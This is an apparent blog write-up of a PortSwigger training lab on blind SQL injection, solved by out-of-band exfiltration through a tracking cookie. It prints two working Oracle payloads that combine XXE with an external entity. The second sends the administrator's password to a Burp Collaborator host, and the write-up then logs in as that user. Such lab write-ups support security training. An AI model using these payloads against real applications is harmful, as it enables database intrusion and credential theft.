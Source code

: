 ```yaml
---
author: Nithissh S
pubDatetime: 2024-09-11T15:22:00Z
modDatetime: 2024-09-11T09:12:47.400Z
title: Blind SQL injection with out-of-band data exfiltration
slug: sqli-portswigger-lab-16
featured: false
draft: false
tags:
  - BSCP
  - SQL Injection
description:
  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain. The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. To solve the lab, log in as the administrator user.
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Solution

Same like previous lab, we have an application vulnerable to SQLI based out of band interaction vulnerability and let's take the same payload 

```sql
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//h1j5djyu3nv2dr3jkiyc733sajga410pp.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

In order to exfil the data, we need to slight change to the payload as per cheatsheet 

```sql
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||SELECT password FROM users WHERE username='administrator'||'.h1j5djyu3nv2dr3jkiyc733sajga410pp.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Sent the request, receives a status code of `200` 

![](../../assets/images/bscp/sqli/sqli57.png)

Checking the burp collaborator, Found that sqli query executed and got `password` in the collaborator response 

![](../../assets/images/bscp/sqli/sqli59.png)

Login into the `administrator` with the password and lab will be solved 

![](../../assets/images/bscp/sqli/sqli60.png)